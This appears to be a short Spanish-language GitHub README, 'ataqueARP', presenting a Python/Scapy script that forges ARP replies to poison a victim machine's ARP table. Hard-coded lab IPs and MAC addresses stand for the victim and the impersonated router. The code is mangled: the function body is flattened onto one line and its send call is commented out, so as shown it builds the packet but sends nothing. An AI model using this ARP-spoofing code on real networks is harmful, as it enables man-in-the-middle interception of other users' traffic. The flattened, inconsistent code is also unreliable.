 # ataqueARP
#en este se muestra un ataque mediante scappy y phyton para poder cambiar las tablas arp de la maquina vulnerada 

from scapy.all import * 
# Función para enviar un paquete ARP falsificado 
def send_arp_packet(target_ip, target_mac, spoofed_ip, spoofed_mac): arp_response = ARP(op=2, psrc=spoofed_ip, pdst=target_ip, hwsrc=spoofed_mac)
# send(arp_response, verbose=False) 
# Direcciones MAC e IPs involucradas 
victim_ip = "192.168.100.197" # IP de la víctima 
victim_mac = "08:00:27:67:7B:62" # MAC actual de la víctima 
spoofed_ip = "192.168.100.198" # IP del router (o el que quieras suplantar) 
spoofed_mac = "08:00:27:ee:48:77" # MAC falsificada que deseas poner en la víctima # Enviamos el paquete ARP falsificado 
send_arp_packet(victim_ip, victim_mac, spoofed_ip, spoofed_mac) print(f"Enviado un paquete ARP falsificado a {victim_ip} con la MAC {spoofed_mac}")
